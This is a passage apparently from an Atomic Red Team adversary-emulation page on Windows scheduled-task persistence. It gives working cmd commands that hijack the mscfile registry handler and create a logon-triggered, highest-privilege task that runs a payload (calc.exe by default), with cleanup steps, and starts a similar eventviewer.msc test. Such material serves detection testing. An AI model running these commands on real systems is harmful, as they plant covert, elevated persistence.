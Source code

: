 
**auto_generated_guid:** 8fcfa3d5-ea7d-4e1c-bd3e-3c4ed315b7d2





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| task_name | Name of the newly-created scheduled task | string | CompMgmtBypass|
| payload | Command you want the task to execute | string | calc.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKEY_CURRENT_USER\Software\Classes\mscfile\shell\open\command" /ve /t REG_EXPAND_SZ /d "c:\windows\System32\#{payload}" /f
schtasks /Create /TN "#{task_name}" /TR "compmgmt.msc" /SC ONLOGON /RL HIGHEST /F
ECHO Let's open the Computer Management console now...
compmgmt.msc
```

#### Cleanup Commands:
```cmd
reg delete "HKEY_CURRENT_USER\Software\Classes\mscfile\shell\open\command" /f
schtasks /Delete /TN "#{task_name}" /F
```





<br/>
<br/>

## Atomic Test #12 - Scheduled Task Persistence via Eventviewer.msc
Adds persistence by abusing `eventviewer.msc` via a scheduled task.
When the eventviewer console is opened, it will run a malicious payload (in this case, `calc.exe`).

**Supported Platforms:** Windows


**auto_generated_guid:** 02124c37-767e-4b76-9383-c9fc366d9d4c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| task_name | Name of the newly-created scheduled task | string | EventViewerBypass|
| payload | Command you want the task to execute | string | calc.exe|
